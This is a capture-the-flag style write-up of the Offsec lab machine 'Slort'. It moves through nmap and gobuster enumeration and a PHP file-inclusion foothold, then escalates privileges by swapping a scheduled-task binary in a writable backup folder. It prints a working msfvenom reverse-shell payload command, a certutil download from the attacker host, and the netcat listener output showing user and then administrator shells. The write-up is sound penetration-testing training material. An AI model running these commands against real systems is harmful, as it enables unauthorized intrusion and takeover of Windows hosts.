



# Slort

## Enuremation

### nmap

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/slort]
└─$ nmap -sCV -Pn -A -T4 192.168.229.53 -o nmapscan.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-18 08:43 EST
Nmap scan report for 192.168.229.53
Host is up (0.048s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 10.3.24 or later (unauthorized)
4443/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.229.53:4443/dashboard/
8080/tcp open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.229.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
```

* No anon access to ftp , no null session access to smb, rpc.

* web servers on port 4443 and 8080 point to xampp dashboard



* Gobuster enumeration reveals an endpoint,
```
gobuster dir -u http://192.168.212.53:8080/ -w /usr/share/wordlists/dirb/common.txt 
.
.
 /site                 (Status: 301) [Size: 346] [--> http://192.168.212.53:8080/site/]
.
.
```


* url shows there is page parameter calling for main.php. It is vulnerable to lfi



## initial access

* Check for RFI.



```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/slort]
└─$ rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.212.53] 50165
SOCKET: Shell has connected! PID: 7216
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>whoami
slort\rupert
```

## Priv Esc

* There is a backup folder in C which runs a backup task every 5 min.

```
Directory of C:\Backup

07/20/2020  06:08 AM    <DIR>          .
07/20/2020  06:08 AM    <DIR>          ..
06/12/2020  06:45 AM            11,304 backup.txt
06/12/2020  06:45 AM                73 info.txt
06/23/2020  06:49 PM            73,802 TFTP.EXE
               3 File(s)         85,179 bytes
               2 Dir(s)  28,601,933,824 bytes free

C:\Backup>type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

* We have full access to this folder.
```
C:\Backup>icacls "C:\Backup"
C:\Backup BUILTIN\Users:(OI)(CI)(F)
          BUILTIN\Administrators:(I)(OI)(CI)(F)
          NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
          BUILTIN\Users:(I)(OI)(CI)(RX)
          NT AUTHORITY\Authenticated Users:(I)(M)
          NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
```

* Create a exploit and replace it in backup folder.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.195 LPORT=4444 -f exe -o rev.exe
```
```
certutil -urlcache -f http://192.168.45.195:80/rev.exe rev.exe
```

* After few minutes we get a admin shell

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/slort]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.212.53] 50271
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
slort\administrator
```


